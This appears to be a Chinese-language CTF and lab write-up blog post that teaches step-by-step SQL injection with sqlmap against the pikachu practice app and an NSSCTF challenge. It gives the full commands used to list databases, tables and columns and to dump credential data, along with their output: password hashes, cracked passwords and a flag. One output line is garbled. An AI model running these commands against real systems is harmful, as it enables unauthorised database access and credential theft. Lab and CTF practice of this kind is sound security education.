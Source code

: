 ```yaml
---
layout: post
title: "通过sqlmap拿下数据库"
date:   2024-9-29
tags: [SQL注入, CTF, WEB]
comments: true
author: MK-KM1542
---
```



有些题目sqlmap扫不出来(比如***1[极客大挑战 2019]LoveSQL 1***)
解决办法：用burpsuite抓包，将请求包放在txt文件中，使用`-r txt文件路径`

```batch
python sqlmap.py -r 请求包.txt -dbs
```

再不行就可能是题目限制了关键词`(select, union, from, where等)`的使用，慢慢审计代码吧

## 以pikachu为例

### 数据库名

```batch
python sqlmap.py -u "http://localhost/vul/sqli/sqli_str.php?name=1&submit=%E6%9F%A5%E8%AF%A2" -dbs
```

```python
[18:08:19] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.39, PHP 5.6.9, PHP
back-end DBMS: MySQL >= 5.6
[18:08:19] [INFO] fetching database names
available databases [6]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] pikachu
[*] root
[*] sys

[18:08:19] [INFO] fetched data logged to text files under 'C:\Users\Administrator\AppData\Local\sqlmap\output\localhost'
```

拿到信息：

* MySQL >= 5.6
* Apache 2.4.39, PHP 5.6.9, PHP
* 数据库名
  * information_schema
  * mysql
  * performance_schema
  * pikachu
  * root
  * sys

### 当前数据库名

```batch
python sqlmap.py -u "http://localhost/vul/sqli/sqli_str.php?name=1&submit=%E6%9F%A5%E8%AF%A2" --current-db --batch
```

```python
[18:09:32] [INFO] fetching current database
current database: 'root'
```

拿到信息：

* 当前数据库名：root

### 列出表名

```batch
python sqlmap.py -u "http://localhost/vul/sqli/sqli_str.php?name=1&submit=%E6%9F%A5%E8%AF%A2" -D root -tables --batch
```

~~~sql
[18:10:18] [INFO] fetching tables for database: 'root'
Database: root
[5 tables]
+----------+
| member   |
| httpinfo |
| message  |
| users    |
| xssblind |
+----------+
~~~

### 列出列名

```batch
python sqlmap.py -u "http://localhost/vul/sqli/sqli_str.php?name=1&submit=%E6%9F%A5%E8%AF%A2" -D root -T users --columns --batch
```

```sql
[18:10:59] [INFO] fetching columns for table 'users' in database 'root'
Database: root
Table: users
[4 columns]
+----------+------------------+
| Column   | Type             |
+----------+------------------+
| level    | int(11)          |
| id       | int(10) unsigned |
| password | varchar(66)      |
| username | varchar(30)      |
+----------+------------------+
```

### 列出数据

```batch
python sqlmap.py -u "http://localhost/vul/sqli/sqli_str.php?name=1&submit=%E6%9F%A5%E8%AF%A2" -D root -T users -C username,password -dump --batch
```

```sql
[INFO18:12:04] cracked password '] [abc123INFO' for user '] current status: Manet... /test'
Database: root
Table: users
[3 entries]
+----------+-------------------------------------------+
| username | password                                  |
+----------+-------------------------------------------+
| admin    | e10adc3949ba59abbe56e057f20f883e (123456) |
| pikachu  | 670b14728ad9902aecba32e22fa4f6bd (000000) |
| test     | e99a18c428cb38d5f260853678922e03 (abc123) |
+----------+-------------------------------------------+
```

## [SWPUCTF 2021 新生赛]easy_sql

### 数据库名

```batch
python sqlmap.py -u "http://node4.anna.nssctf.cn:28145/?wllm=1" -dbs
```

```sql
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] test
[*] test_db
```

### 当前数据库名

```batch
python sqlmap.py -u "http://node4.anna.nssctf.cn:28145/?wllm=1" --current-db --batch
```

```sql
[18:28:26] [INFO] fetching current database
current database: 'test_db'
```

### 列出表名

```batch
python sqlmap.py -u "http://node4.anna.nssctf.cn:28145/?wllm=1" -D test_db -tables --batch
```

```sql
Database: test_db
[2 tables]
+---------+
| test_tb |
| users   |
+---------+
```

### 列出列名

```batch
D:\Desktop\sqlmap-1.8\sqlmap-1.8>python sqlmap.py -u "http://node4.anna.nssctf.cn:28145/?wllm=1" -D test_db -T test_tb --columns --batch
```

```sql
Database: test_db
Table: test_tb
[2 columns]
+--------+-------------+
| Column | Type        |
+--------+-------------+
| flag   | varchar(50) |
| id     | int(11)     |
+--------+-------------+
```

### 列出数据

```batch
python sqlmap.py -u "http://node4.anna.nssctf.cn:28145/?wllm=1" -D test_db -T test_tb --C flag -dump --batch
```

```sql
[18:30:48] [INFO] fetching entries of column(s) 'flag' for table 'test_tb' in database 'test_db'
Database: test_db
Table: test_tb
[1 entry]
+----------------------------------------------+
| flag                                         |
+----------------------------------------------+
| NSSCTF{3ece377d-0b31-4ea2-9fb4-8324d7cdeb83} |
+----------------------------------------------+
```

得到flag：NSSCTF{3ece377d-0b31-4ea2-9fb4-8324d7cdeb83}

## 总结

1. 先爆数据库名

```batch
python sqlmap.py -u "http://localhost/vul/sqli/sqli_str.php?name=1&submit=%E6%9F%A5%E8%AF%A2" -dbs
```

2. 指定数据库名爆表名

```batch
python sqlmap.py -u "http://localhost/vul/sqli/sqli_str.php?name=1&submit=%E6%9F%A5%E8%AF%A2" -D pikachu -tables
```

3. 指定表名爆列名

```batch
python sqlmap.py -u "http://localhost/vul/sqli/sqli_str.php?name=1&submit=%E6%9F%A5%E8%AF%A2" -D pikachu -T users --columns
```

4. 指定列名爆数据

```batch
python sqlmap.py -u "http://localhost/vul/sqli/sqli_str.php?name=1&submit=%E6%9F%A5%E8%AF%A2" -D pikachu -T users -C username,password -dump
```
